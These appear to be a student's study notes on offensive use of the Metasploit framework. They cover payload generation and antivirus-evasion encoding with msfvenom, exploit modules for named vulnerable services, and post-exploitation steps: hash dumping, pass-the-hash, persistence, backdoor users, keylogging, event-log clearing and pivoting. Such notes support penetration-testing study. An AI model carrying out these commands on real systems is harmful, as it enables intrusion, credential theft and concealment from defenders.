


# Metasploit framework



Modules:
- Exploit: Modules use for exploit target, typically paired with a payload
- Payload: Payload is the code develop by MSF and remotely executed on the target.
- Encoder: Used to encode payload in order to avoid AV detection.
- NOP: Used to ensure that payloads size are consistent, ensure payload is stable
- Auxiliary: Modules for additional functionality like enumeration, scanning

When working with MSF exploit, have 2 type of payload:
- Non-staged payload: Send to target as along with the exploit
- Staged payload: Send to the target in two part:
  - Stager: Part 1, payload use for establish a connections, and download the second part
  - Stage: Part 2, The payload execute on the target.

Meterpreter payload: is advanced multi-functional payload, use to provide attacker useful facilitates to run on target.
    - This payload execute in memory, hard to detect and trace.

MSF modules store:
    - `/usr/share/metaspoit-framework/modules`
    - For custom modules: ~/ms4/modules

## PTES

[Penetration testing execution standard](http://www.pentest-standard.org/index.php/Main_Page)



- `connect` command on MSF work as net cat, use to connect to the target.
- `workspace` `-a` for create, `-d` for delete, `-r` for rename
  - `workspace <name>` switch

## Web server 
- `http_version` for http version
- `http_header` get info for header
- `robots_txt` to get robots.txt file
- `dir_scanner` brute force dir
  - `apache_userdir_enum` enum for apache user
- `http_login` brute force login for http


## Mysql
- `mysql_enum` provide username and password to enum info

## Vulns scan
- `searchsploit`, `analyze` command in msf or `autopwn` plugins
- With `Nessus` we can import the scan result with `db_import`

## MSFvenom

A client side attack is the attack vector involves a client to execute a malicous code or payload on their system

Msfvenom is a command line utility that can be used to generate and encode msf payloads.
- When execute, it will connect back to msf module and run meterpreter

Shellcode is code used as payload for exploitation, mostly to gain remote access to the target

**Usage:**
- `msfvenom --list payloads` List all payloads.
  - `msfvenom --list formats` List payload by format
- `-a x86` platform architecture
- `-p` Specify the payload, `LHOST=<host_ip>` `LPORT=<host_port>` 
- `-f` format output, ex: `exe` `elf` (Linux exe)
- Lastly, specify the output path for the output file `> <output_path>`

**How to transfer**:
- We can setup a simple python http server to host the payload
- Setup `multi/handler`
- Download and run the payload on the victim machine

**How to encode the payload**:
- We need to encode to avoid detection of the signature base AVs
- `msfvenom --list encoders` List encoder
  - Typically we use `x86/shikata_ga_nai` or `powershell_base64`
- EX: `msfvenom -p <payload> -e x86/shikata_ga_nai -f exe > <output_path>` Encode 1 time, (1 interations)
  - The more the encoding tine, the more change it cannot detected
  - Set interations `-i 10` or `--interations 10` ~ 10 times
- Run normally, don't need extra steps

**How to inject the payload to windows portable executeable**
- `msfvenom -p <payload> LHOST ... -e x86/shitaka_ga_nai -i 10 -f exe -x <path_to_exe_inject> > <output_path>`
  - `-k` Keep the original functions of inject exe
- Put the output file on the target system and run normally

## Automate metasploit with resource scipt

For simple script, we can write all command in linear order like:

EX: Save as `*.rc`

```
use <module>
set <Payload>
set <Host>
run
```

To run the scipt `msfconsole -r scipt.rc`

To load the resource script in `msfconsole`, run `resource <script_path>`
The other way to create script is after run command in `msfconsole`, run `makerc <output_path>` 
- It will save all previours command to script

## WinRM exploit

- We can use `winrm_auth_methods` enum authentication method
- After know the authencation method, we can use `winrm_login` to brute force the basic auth methods
- After that, we can use `winrm_cmd` to login on the system and run command 
- For meterpreter sessions, we can use `winrm_script_exec`

## Apache tomcat ~ 8080

Open source java web server.
- Standard apache web server is develop in php
- Tomcat is for java.

**How to exploit**:
- For the version `8.5.19` we can use the module `tomcat_jsp_upload_bypass`
  - `set payload java/jsp_shell_blind_tcp`
  - `set shell cmd` for windows
- Other way, We can create payload using `msfvenom -p <reverse_tcp> LHOST ... -f exe > meterpreter.exe`
  - To be able to download, we may need to install cert on target machine using `certutil -urlcache <url_to_payload> <file_name>`


## VSFTPD

VSFTPD v2.3.4 have vulns that attacker can upload the backdoor to gain access

- `search vsftpd` -> use the exploit modules
- set `RHOSTS` and run -> It will provide us with linux shell
- To upgrade shell to meterpreter, we can use module `shell_to_meterpreter`
  - set `LHOSTS` and `SESSIONS` 

## Samba
Samba version 3 -> 4.
We can use module `is_known_pipename` to exploit this Samba
- `nmap -sV --script=smb-* <target>`
- `search type:exploit name:samba`

## Libssh

Exploit ssh: libssh v0.6.0 to v0.8.0 have exploit that can bypass authentication 

There are a module for this exploit
- Scanner `libssh_auth_bypass` -> set `SPAWN_PTY true`
- Run

## SMTP - Haraka

Haraka is an open source high performace SMTP server, developed in Node.js

Haraka to version 2.8.9 is vulns to command injections

We can use module `linux/smtp/haraka` to exploit
- We use non-staged payload for this
  - So we have server and lhost, need to be different port
- This module we set payload `linux/x64/meterpreter_reverse_http`
- Change `SRVPort` to 9000, `LPORT` keep default
  - Tips: For `LHOST`, we can `set LHOST eth1` -> This will default input the host ip of eth1 network
- Important: Set email_to to correct email address of the target

# Meterpreter

- When the target have http/s service on port 80/443, we can try to download the index file `curl <target_url>`
- Check the file content, we see the web app use `xoda` -> We can use the module `xoda_file_upload` to exploit 
- set base path `TARGET_URI` and run

----

- When target open http or https, check open dir and file by `dirb <target_url>`
- If we can get the `phpinfo.php`, try to read it.
  - See the module `xdebug` is enable (<= 2.5.5), we can use the module `xdebug_unauth_exec` to exploit
  - Set `LHOSTS` and `LHOST` (host ip)
  - Run

# Window post exploit

- `get mounts` get mounts volume on the target
- `migrate` migrate to other service, the meterpreter will upgrade to the user own the service
- `post/windows/archmigrate` migrate the architecture
- `post/manage/migrate` migrate to higher privilege service ~ Like manual migrate
- `post/windows/gather/win_privs` Check windows privs of current user.
- `post/windows/gather/enum_logged_on_users` Gather current logged on users
- `post/windows/gather/checkvm` Check if the target is a VM.
- `post/windows/gather/enum_applications` Enum the program install on target
- `post/windows/gather/enum_av_excluded` Enum the folder that the av engine excluded
- `post.../enum_computer` Check it in work domain or not. And get the computer name
- `post.../enum_patches` Check if the patches of windows are installed or not.
  - Alternitive, we open shell, run `systeminfo` for windows
- `post../enum_shares` Check if the target have any share.
- `search rdp` `post../enable_rdp` enable rdp on the target.
- `loot` Collect infor of previours command and save to file

## Bypass UAC 

- Check current user of group: `net localgroup administrator`
- We can use module `bypassuac_injection` to exploit
- We can `set payload windows/x64/.../reverse_tcp`
  - set Lport, and `set target windows\ x64`


--- 

Incognito:
- When we have meterpreter sessions, we can `load incognito` 
- `load_tokens -u`, check if any token we can impersonate
- `impersonate_token "<User>"` -> Migrate.

---

With http server, badblue version v2.7, we can use module `badblue_passthru` to exploit
- set target and exploit
  - 
- When we have `meterpreter`, run `load kiwi`
  - `lsa_dump_sam`
  - or `hashdump`

---

Pass the hash with Psexec:
- When we have the NTLM hash, we can use it to logon to the system with psexec
- `use windows/smb/psexec` -> Set payload to x64
- Set `SMBUser`, set `SMBPass` as LMHash:NTMLHash, dump from hashdump

---

Persitence consists of technique that adveraries use to keep access to the system across restart, changed the credentials and other interrupt that could cut off their access.
- We can use exploit module `persistence_service`
  - set payload reverse_tcp -> Run -> It will create a service and a meterpreter for current exploit
  - Setup lhost and lport for handler later
- Setup `multi/handler`, automatic connect for us.

---

Enable RDP:
- After exploit, we can use module `enable_rdp` to gain remote desktop access on the target
  - Tips: In shell, meterpreter, we can change password of user by `net user administrator <new_password>`
- Use `xfreerdp` to connect to the target
  - `xfreerdp /u:<username> /p:<password> /v:<target_ip>`

---

For keylogging, we can use metasploit module or other key logging app.
- In meterpreter sessions, we can use command `keyscan_start`, `keyscan_dump`, `keyscan_stop`

---

Clearing event logs: 
- In meterpreter, we can use `clearev` to clear event log

---

Pivoting: Pivot is post exploitation technique that involves utilizing a compromised host to attack other systems on the compomised host's private internal network
- In meterpreter, we can use `run autoroute -s <target_subnet>/20`
  - Tips: To rename sessions `sessions -n <name> -i <sessions_id>`
- Or we can use port forwarding, `portfwd add -l <local_port> -p <remote_port> -r <remote_ip>` -> Create local tcp port relay.
  - Now we can nmap in the local port.

# Linux post exploit

We can perform:
- Enum system config
- Enum env variable
- Enum network config
- Check VM
- Enum user history (bash command history)

Tips: When enter shell sessions, we can use `CTRL + Z` to background the session

**How**:
- `cat /etc/passwd` `cat /etc/shadow`, `group <current_user>`, `uname -a`
- `cat /etc/*issue` Get correct distribure
- `ip a s` Enum network
- `netstat -antp` Check service and port open
- `ps aux` Process enum
- `env` Enviroment variable enum

**With msf module**:
- `post/linux/enum_configs` Gather configurations file
- `post/multi/gather/env` Gather env variable
- `post.../enum_network` Network enum
- `post../gather/enum_protections` Check for protections 
- `post../enum_system` Enum system info.
- `post../checkcontainer` Container detections.
- `post../checkvm` VM check
- `post../enum_users_history` Check user history file and store in log.
- `post ../system_sessions` Create specical sessions
- `post../download_exec` Download file and execute on target.

TIPS: `loot` and `notes` to check for infor gather by msf.

## Linux privileage escalation - Rootkit

Check the process running, if we detect the `chkrootkit` old version.
- Open shell `ps aux`, check content of some bash script
- We can use the module `unnix/local/chkrootkit`, set LHOST, session, `chkrootkit` to rootkit exe path
  - Run `set LHOST eth1`

## Hashdump

- We can `cat /etc/shadow` or use `hashdump` in meterpreter session
- Or using `linux/gather/hashdump` -> `loot`

Module that we can try to get info:

- post/multi/gather/ssh_creds
- post/multi/gather/docker_creds
- post/linux/gather/hashdump
- post/linux/gather/ecryptfs_creds
- post/linux/gather/enum_psk
- post/linux/gather/enum_xchat
- post/linux/gather/phpmyadmin_credsteal
- post/linux/gather/pptpd_chap_secrets
- post/linux/manage/sshkey_persistence

## Persistence on linux

When we gain access to the system, we can following these steps to create persistence connection on linux
- First, create new user
  - `useradd -m <user~orOtherName> -s /bin/bash`
  - `passwd user` Create password for new user
  - `usermod -aG root user` Add user to root group
  - `usermod -u <user_id> user` Set user id for user
- `search platform:linux persistence`
  - We can use `apt_package_manager_persistence` or `cron_persistence`, `service_persistence`
    - Set correct LHOST, SESSIONS and LPORT
  - Best module can use is `sshkey_persistence` -> `loot` -> We get the private key
    - Copy the key to the file, `chmod 0400 <key_path>`
    - Login with `ssh -i ssh_key root@<target_ip>`

# Armitage

Java GUI frontend for metasploit framwork

`armitage` command to start
- `Add host` to add a host